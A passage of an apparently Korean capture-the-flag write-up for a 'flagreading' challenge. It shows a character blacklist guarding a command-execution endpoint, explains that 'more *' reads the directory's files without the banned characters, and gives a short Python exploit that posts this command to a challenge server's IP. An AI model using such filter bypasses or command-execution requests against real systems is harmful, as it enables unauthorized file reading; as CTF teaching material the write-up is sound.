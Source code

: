 ```python
blacklist = set('flag/')

def is_valid_command(command):
    if any(char in blacklist for char in command):
        return False
    return True
```      
대신, `is_valid_command()` 함수로 인해 `'f','l','a','g','/'` 문자를 사용할 수 없다.       
      
`more *` 명령을 실행히면 위 문자를 사용하지 않고 해당 디렉터리에 파일 내용을 볼 수 있다.            
       
## Exploit Code      
         
```python
import requests 
url = "http://3.36.132.18:5678"

r = requests.post(
    f"{url}/execute_command",
    data={
        "command": "more *"
    }
)
print(r.text)
```       
       
<img src="/assets/images/ctf/2024/hspace/flagreading/flag.jpg" width="700px"/>     
               